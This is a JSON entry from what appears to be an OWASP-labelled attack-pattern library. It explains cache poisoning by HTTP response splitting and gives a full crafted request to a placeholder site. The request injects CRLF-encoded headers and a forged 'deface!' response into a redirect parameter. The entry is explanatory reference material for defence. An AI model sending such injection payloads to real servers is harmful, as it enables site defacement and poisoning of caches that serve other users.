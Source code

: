 {
  "id": "122",
  "name": "Cache Poisoning - Using HTTP Response Splitting we force cache server to generate two responses to one request",
  "description": "\n\nGET http://testsite.com/redir.php?site=%0d%0aContent-\nLength:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-\nModified:%20Mon,%2027%20Oct%202009%2014:50:18%20GMT%0d%0aConte\nnt-Length:%2020%0d%0aContent-\nType:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1\nHost: testsite.com\nUser-Agent: Mozilla/4.7 [en] (WinNT; I)\nAccept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,\nimage/png, */*\nAccept-Encoding: gzip\nAccept-Language: en\nAccept-Charset: iso-8859-1,*,utf-8\n\nWe are intentionally setting the future time (in the header it's set to 27 October 2009) in the second response HTTP header \"Last-Modified\" to store the response in the cache.\n\nWe may get this effect by setting the following headers:\nLast-Modified (checked byt the If-Modified-Since header)\nETag (checked by the If-None-Match header)\n\nReference: https://www.owasp.org/index.php/Cache_Poisoning",
  "labels": "OWASP",
  "libraryId": "1",
  "guid": "cae9b9f9-de9b-46c8-9b16-cc9142e7b088",
  "isHidden": false,
  "isReadOnlyLibraryEntity": false,
  "libraryGuid": "eef7dcf9-53bd-48e9-849d-21445ebad101"
}